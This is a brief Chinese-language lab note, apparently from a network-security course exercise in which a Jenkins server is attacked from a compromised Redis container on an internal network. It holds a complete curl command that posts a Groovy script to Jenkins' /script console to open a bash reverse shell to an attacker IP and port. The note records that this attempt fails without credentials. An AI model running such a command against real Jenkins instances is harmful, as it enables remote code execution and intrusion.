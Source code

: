 ![](网安下半/实验/二层内网/在redis容器shell中攻击jenkins.png)


以下是不使用账号密码信息的结果，无法获得反弹shell
```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"   

curl -X POST "$JENKINS_URL/script" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```